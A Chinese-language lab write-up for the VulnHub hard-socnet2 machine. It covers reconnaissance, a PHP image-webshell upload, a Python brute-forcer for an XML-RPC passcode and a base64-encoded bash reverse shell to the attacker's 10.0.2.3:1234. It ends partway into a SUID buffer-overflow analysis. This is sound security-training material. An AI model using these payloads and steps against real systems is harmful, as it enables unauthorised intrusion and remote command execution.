网络攻防实战 Lab06 Writeup
使用的靶机为 VulnHub hard-socnet2
渗透目的
取得目标靶机的 root 权限
了解 XML 语法并构造 XML 请求；了解 Linux 栈溢出攻击的原理与具体操作
具体操作
信息收集
启动 VirtualBox 中的 Kali 攻击机与靶机，网络采用 NAT 连接
ifconfig 获取攻击机的 ip 为 10.0.2.3，使用 nmap 扫描 ip：
1
2
3
4
5
6
7
8
9
10
11
12
13
14 | > nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 08:52 CST
Nmap scan report for bogon (10.0.2.1)
Host is up (0.00051s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00044s latency).
MAC Address: 08:00:27:79:06:A9 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.6)
Host is up (0.0027s latency).
MAC Address: 08:00:27:E5:CD:43 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.3)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.09 seconds
|
考虑靶机 ip 为 10.0.2.6，继续扫描端口 nmap -sV -sC 10.0.2.6，看看有哪些服务项
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36 | > nmap -sV -sC 10.0.2.6
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 08:53 CST
Nmap scan report for bogon (10.0.2.6)
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (reset)
// SSH 服务
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 e5:d3:4e:54:fe:66:3e:f3:b2:a5:4b:51:9f:5f:f9:c6 (RSA)
| 256 de:86:ef:76:93:63:74:83:00:b1:a3:b8:c2:4c:8f:58 (ECDSA)
|_ 256 b5:ec:f1:1e:9a:5a:5c:d7:02:3a:9e:1b:f7:c8:b4:53 (ED25519)
// Apache 服务
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Social Network
// BaseHTTPServer: Python 2 中用于创建简单 HTTP 服务器的模块
// 和上面的 Apache 一样都是 HTTP 后端
PORT STATE SERVICE VERSION
8000/tcp open http BaseHTTPServer 0.3 (Python 2.7.15rc1)
|_xmlrpc-methods: XMLRPC instance doesn't support introspection.
|_http-title: Error response
|_http-server-header: BaseHTTP/0.3 Python/2.7.15rc1
MAC Address: 08:00:27:E5:CD:43 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
|
同时确定靶机操作系统为 Ubuntu
Getshell 尝试
总共有两个 HTTP 端口：
Port: 80
一个 Pynch （没找到相关信息）的登录页面，可以注册
有注册账号页面，先注册一个账号
进入主站是一个交友软件（没用过）的界面，过会探索一下

Port: 8000
无法以正常的方式（GET POST 等等）访问
但是 POST method 返回的信息和其他的方式不同，说明方法正确
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27 | # GET METHOD
Error response
Error code 501.
Message: Unsupported method ('GET').
Error code explanation: 501 = Server does not support this operation.
# POST METHOD
<methodResponse>
<fault>
<value>
<struct>
<member>
<name>faultCode</name>
<value>
<int>1</int>
</value>
</member>
<member>
<name>faultString</name>
<value>
<string><class 'xml.parsers.expat.ExpatError'>:no element found: line 1, column 0</string>
</value>
</member>
</struct>
</value>
</fault>
</methodResponse>
|
先对 10.0.2.6:80 进行测试：
地址爆破
在实际探索网站前用 dirb 爆破目录，收集一下基础信息：
| > dirb http://10.0.2.6:80 /usr/share/dirb/wordlists/big.txt
---- Scanning URL: http://10.0.2.6:80/ ----
==> DIRECTORY: http://10.0.2.6:80/data/
==> DIRECTORY: http://10.0.2.6:80/database/
==> DIRECTORY: http://10.0.2.6:80/functions/
==> DIRECTORY: http://10.0.2.6:80/images/
==> DIRECTORY: http://10.0.2.6:80/includes/
==> DIRECTORY: http://10.0.2.6:80/resources/
+ http://10.0.2.6:80/server-status (CODE:403|SIZE:296)
|
/data 和 /image 内是一些图片 sprite，/resources 内是一些 HTTP 前端的 JS/CSS 文件，而其余的 directory 提供了很多内容：

先看 SQL 文件，其中 DDL.sql 是注册用户用途，而 DML.sql 的内容比较有趣：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26 | INSERT INTO users(user_firstname, user_lastname, user_password, user_email, user_gender, user_birthdate)
VALUES ("Armin", "Virgil", "armin@gmail.com", "M", "2001-02-05");
INSERT INTO users(user_firstname, user_lastname, user_nickname, user_password, user_email, user_gender, user_birthdate, user_status)
VALUES ("Paul", "James", "Pynch", "paul@gmail.com", "M", "1998-12-19", "S");
INSERT INTO users(user_firstname, user_lastname, user_password, user_email, user_gender, user_birthdate)
VALUES ("Chris", "Wilson", "chris@gmail.com", "M", "1996-01-18");
INSERT INTO users(user_firstname, user_lastname, user_password, user_email, user_gender, user_birthdate, user_status)
VALUES ("Rory", "Blue", "rory@gmail.com", "F", "1994-04-18", "M");
INSERT INTO users(user_firstname, user_lastname, user_password, user_email, user_gender, user_birthdate)
VALUES ("Andrea", "Surman", "andrea@gmail.com", "M", "1994-06-06");
# 没有自己的注册信息？
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("Hello there!", "2017-12-23 00:50:06", "Y", 1);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("Paul James has changed his profile picture.", "2017-12-23 00:50:06", "N", 2);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("A new artwork from the upcoming content.", "2017-12-23 00:50:06", "Y", 3);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("New Year Eve Fireworks", "2017-12-23 00:50:06", "Y", 4);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("Visit our profile to check out the upcoming transfers and rumors for January 2018", "2017-12-23 00:50:06", "N", 5);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("Happy new year!", "2017-12-23 00:50:06", "N", 5);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (2,1,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (2,3,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (2,4,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (1,5,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (3,5,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (4,5,1);
|
这里存储了一些用户数据，尤其是这个人的：
| INSERT INTO users(user_firstname, user_lastname, user_nickname, user_password, user_email, user_gender, user_birthdate, user_status)
VALUES ("Paul", "James", "Pynch", "paul@gmail.com", "M", "1998-12-19", "S");
|
这个人的 nickname 恰好对应网站开头的 Welcome to Pynch，猜测他是管理员
其他的 php 文件看不到源码，但是也能提供信息，比如 upload.php 很可能存在文件马上传
访问主站
用之前注册的账号进行主站访问，发现了 Profile 页面

注意到有上传图片的地方，考虑上传图片马

上传成功了，右键得到图片地址 http://10.0.2.6/data/images/profiles/3.php5

打开后用 AntSword 进行连接
（上下两个配图不一样是因为我第一次用的图片马没有被正确识别，换了一个）


打开虚拟终端，成功 Getshell

提权尝试
有内核漏洞，但是如果直接用这个就没有意思了
| Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation | linux/local/47163.c
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (cron Method) | linux/local/47164.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (dbus Method) | linux/local/47165.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (ldpreload Method) | linux/local/47166.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (polkit Method) | linux/local/47167.sh
|
搜一下用户，发现 socnet 用户有 /bin/bash
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32 | (www-data:/var/www/html/data/images/profiles) $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
socnet:x:1000:1000:socnet2:/home/socnet:/bin/bash <------ this
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
|
到目录下搜索
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18 | (www-data:/var/www/html/data/images/profiles) $ cd /home/socnet
(www-data:/home/socnet) $ ls -l -a
total 60
drwxr-xr-x 6 socnet socnet 4096 Oct 29 2018 .
drwxr-xr-x 3 root root 4096 Oct 29 2018 ..
-rw-r--r-- 1 socnet socnet 3771 Apr 4 2018 .bashrc
drwx------ 2 socnet socnet 4096 Oct 29 2018 .cache
-rw------- 1 socnet socnet 1040 Oct 29 2018 .gdb_history
-rw-rw-r-- 1 socnet socnet 22 Oct 29 2018 .gdbinit
drwx------ 3 socnet socnet 4096 Oct 29 2018 .gnupg
drwxrwxr-x 3 socnet socnet 4096 Oct 29 2018 .local
-rw------- 1 socnet socnet 579 Oct 29 2018 .mysql_history
-rw-r--r-- 1 socnet socnet 807 Apr 4 2018 .profile
-rw-rw-r-- 1 socnet socnet 66 Oct 29 2018 .selected_editor
-rw-r--r-- 1 socnet socnet 0 Oct 29 2018 .sudo_as_admin_successful
-rwsrwsr-x 1 root socnet 6952 Oct 29 2018 add_record # suid?
-rw-rw-r-- 1 socnet socnet 904 Oct 29 2018 monitor.py
drwxrwxr-x 4 socnet socnet 4096 Oct 29 2018 peda
|
sus .sudo_as_admin_successful 文件提示这里有 sudo 的可能性（其实没什么关联），而 monitor.py 文件在之前的 post 中有提示
看看 monitor.py 的内容：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39 | #my remote server management API
import SimpleXMLRPCServer
import subprocess
import random
# 一个在启动服务时随机生成的四位数 passcode
# 这个密码在服务启动期间不变
debugging_pass = random.randint(1000,9999)
# shell = True 任意命令执行？
def runcmd(cmd):
results = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
output = results.stdout.read() + results.stderr.read()
return output
# 输出 CPU 状态
def cpu():
return runcmd("cat /proc/cpuinfo")
# 之后的都懂了
def mem():
return runcmd("free -m")
def disk():
return runcmd("df -h")
def net():
return runcmd("ip a")
# 根据 passcode 调用上面的任意命令执行指令
def secure_cmd(cmd,passcode):
if passcode==debugging_pass:
return runcmd(cmd)
else:
return "Wrong passcode."
# 注册函数，开始启动服务器
server = SimpleXMLRPCServer.SimpleXMLRPCServer(("0.0.0.0", 8000))
server.register_function(cpu)
server.register_function(mem)
server.register_function(disk)
server.register_function(net)
server.register_function(secure_cmd)
server.serve_forever()
|
一个 XML-RPC 服务，服务端口在之前一直 Error code 501 的 8000
了解一下 XML 语法，试试 POST 访问，并且调用 cpu 指令

返回了预期的结果，现在的目标是爆破 secure_cmd 的四位密码
（第一个参数为命令，第二个参数为 passcode）

让 AI 给出一个最小化的爆破程序：
1
2
3
4
5
6
7
8
9
10
11
12 | import xmlrpc.client
proxy = xmlrpc.client.ServerProxy("http://10.0.2.6:8000")
for password in range(1000, 10000):
try:
result = proxy.secure_cmd("whoami", password)
if "Wrong passcode" not in str(result):
print(password)
break
except:
pass
|
很快给出了 passcode
确认一下，指令顺利执行：

构建一个反弹 Shell，XML 会拒绝某些特殊字符出现在字符串中，所以 Base64 编码后再发送
--> echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMy8xMjM0IDA+JjEK" | base64 -d | bash
| > nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.6] 33498
bash: cannot set terminal process group (780): Inappropriate ioctl for device
bash: no job control in this shell
socnet@socnet2:~$ python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
socnet@socnet2:~$
|
获得了一个权限更高的 socnet 用户 Shell，下一步就是获取 root Shell
之前发现过一个 suid 文件，扫一下 suid
1
2
3
4
5
6
7
8
9
10
11
12
13
14 | socnet@socnet2:~$ find / -perm -4000 -type f 2>/dev/null
/snap/core/17247/bin/mount
/snap/core/17247/bin/ping
# 省略很多文件...
/home/socnet/add_record
socnet@socnet2:~$ ls -l
total 16
-rwsrwsr-x 1 root socnet 6952 Oct 29 2018 add_record
-rw-rw-r-- 1 socnet socnet 904 Oct 29 2018 monitor.py
drwxrwxr-x 4 socnet socnet 4096 Oct 29 2018 peda
socnet@socnet2:~$ file add_record
add_record: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e3fa9a66b0b1e3281ae09b3fb1b7b82ff17972d8, not stripped
|
确定可疑文件 add_record ，是一个 ELF-32 文件，所有者为 root。没有提供源代码，需要动态调试甚至逆向（PWN or RE）
有趣的是，add_record 同级文件夹中还有一个 peda 是 gdb 的一个插件，这明示了使用 gdb 进行动态调试🤓
用 gdb add_record 先 run 一下
（在此之前应该 checksec 一下确认保护机制）
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21 | gdb-peda$ run
run
Starting program: /home/socnet/add_record
Welcome to Add Record application
Use it to add info about Social Network 2.0 Employees
Employee Name(char): Unknown
Unknown
Years worked(int): 114
114
Salary(int): 514
514
Ever got in trouble? 1 (yes) or 0 (no): 1
1
Explain: Give me ur root account :)
Give me ur root account :)
Employee data you've entered:
Name Unknown
Years 113, Salary 114, Trouble 1, Comments Give me ur root account :)
[Inferior 1 (process 3123) exited normally]
Warning: not running or target is remote
|
没什么线索，用 IDA 逆向一番，发现一个直接叫作 backdoor 的函数，植入的是任意代码执行（注意 setuid(0);）

（对应的汇编地址与内容）

不幸的是，这个函数没有被其他的任何函数引用，因此考虑需要在某处执行内存溢出攻击
先记下后门函数的首地址 0x08048676，然后看看 main 函数的内容：
1
2
3
4
5
6
7
8
9
